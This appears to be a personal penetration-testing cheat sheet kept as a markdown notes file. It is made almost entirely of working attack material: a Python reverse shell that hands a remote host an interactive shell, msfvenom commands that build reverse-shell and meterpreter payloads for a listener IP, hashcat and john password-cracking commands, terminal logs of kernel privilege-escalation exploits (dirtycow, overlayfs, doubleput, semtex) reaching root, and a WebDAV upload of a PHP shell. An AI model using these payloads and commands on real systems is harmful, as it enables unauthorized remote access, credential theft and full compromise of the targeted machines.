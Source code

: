 # notes

## python reverse shell
(redirect stdin, stdout, stderr to open socket)  
import socket,subprocess,os,sys  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect((sys.argv[1],int(sys.argv[2])))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
p=subprocess.call(["/bin/sh","-i"])  

## msfvenom payloads I've used
msfvenom -p cmd/unix/reverse_bash lhost=172.16.3.1 lport=4123 R > shell.sh  
msfvenom -p php/meterpreter_reverse_tcp LHOST=172.16.3.1 LPORT=4123 -f raw > shell.php  
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.3.3 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x26' -f python --smallest  

## hashcat
store cracks in a different potfile:  
hashcat --potfile-path hashcat.pot -m 1000 -a 0 hashes.txt ~/wordlists/rockyou.txt  

## old centos
bash-4.1$ /usr/bin/gcc -O2 semtex.c -o semtex  
/usr/bin/gcc -O2 semtex.c -o semtex  
bash-4.1$ chmod +x semtex  
chmod +x semtex  
bash-4.1$ ./semtex  
./semtex  
2.6.37-3.x x86_64  
sd@fucksheep.org 2010  
-sh-4.1#  

## Linux kernel 4.4 < 4.5.5 w/CONFIG_BPF_SYSCALL
www-data@dolphin:/tmp$ ./doubleput  
./doubleput  
starting writev  
woohoo, got pointer reuse  
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.  
suid file detected, launching rootshell...  
we have root privs now...  
root@dolphin:/tmp#  

## dirtycow
bash-4.2$ ./cowroot  
./cowroot  
id  
uid=0(root) gid=48(apache) groups=0(root),48(apache)  

## overlayfs
$ gcc overlayfail.c -o overlayfail  
$ ./overlayfail  
root@vps1723:/tmp#  

## awk
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## john
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## webdav
davtest -url http://10.13.1.146/webdav -auth admin:s3cr3t -uploadfile shell.php -uploadloc shell.php  
